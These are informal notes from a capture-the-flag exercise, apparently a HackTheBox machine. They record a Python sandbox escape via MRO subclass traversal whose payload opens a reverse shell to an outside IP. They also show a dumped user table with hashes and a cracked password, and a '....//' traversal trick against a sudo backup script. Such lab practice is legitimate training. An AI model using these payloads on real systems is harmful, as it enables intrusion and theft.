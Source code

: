 this worked as as well the issue  
wasn't the tempting issue is that if you did the object traversal in python those keywords were not blocked. !!!!!!!!


MRO (Method Resolution Order)


FULL PAYLOAD

```
print(''.__class__.__mro__[1].__subclasses__()[317]('/bin/bash -c "sh -i >& /dev/tcp/10.10.14.12/443 0>&1"', shell=True, stdout=-1).communicate()[0])
```


Downloaded sqlite3 db user table
```
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be

```

development -> development


# This logs in ssh

martin -> nafeelswordsmaster

```
martin@code:~$ sudo   -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

```
martin@code:~/backups$ sudo /usr/bin/backy.sh op.sh  json
Error: /root is not allowed. Only directories under /var/ and /home/ are allowed.
```

can't back up root and its cleaning the ../../../ 
if i backup root i just unzip and get flag

either i find a way to pass in the ../../../../../

or there is something i can back up from the /var directory that has creds or something
logs?


this bypasses regex as regex is just removing ../ -> file is empty tho? why?

/home/....//....//....//....//....//....//....//....//....//....//....//root/

i might not be bypassing the script correcly
